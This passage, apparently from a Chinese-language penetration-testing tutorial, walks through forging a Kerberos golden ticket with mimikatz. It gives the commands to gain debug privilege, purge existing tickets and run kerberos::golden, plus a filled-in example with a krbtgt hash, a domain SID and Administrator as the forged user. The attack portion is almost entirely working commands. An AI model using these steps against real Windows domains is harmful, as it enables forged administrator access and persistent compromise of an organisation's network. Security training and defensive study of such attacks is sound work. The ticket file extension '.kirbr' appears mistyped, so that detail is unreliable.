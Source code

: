 管理员窗口操作

#### 1、清除原有票据

因为在⽣成票据时需要将原有的票据清空，所以⼀旦票据⽣成失败，主机也将⽆法继续访问域内信息了 (脱域)。

使⽤ `kerberos::purge` 清空票据后，就可以使⽤ kerberos::golden ⽣成票据了。

```plain
mimikatz.exe
privilege::debug
kerberos::purge     清空票据
```

[![](assets/1706496056-5f902453e1862345ab42be54897e46cb.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172314746-1349902051.png)

#### 2、⽣成票据

```plain
kerberos::golden /user:<要伪造的⽤户名> /domain:<完整域名> /krbtgt:<krbtgt ⽤户的 hash> /sid:<域 sid> /ticket:<⽣成的⽂件名.kirbr>

kerberos::golden /user:Administrator /domain:mao.com /krbtgt:e798fdc7ba810c372ef7bffcdc8f2d13 /sid:S-1-5-21-86377703-696496247-1862912240 /ticket:carmi.kirbr
```

[![](assets/1706496056-56391e06a7b378aeaf5e5bb40689b56d.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172316515-119343848.png)
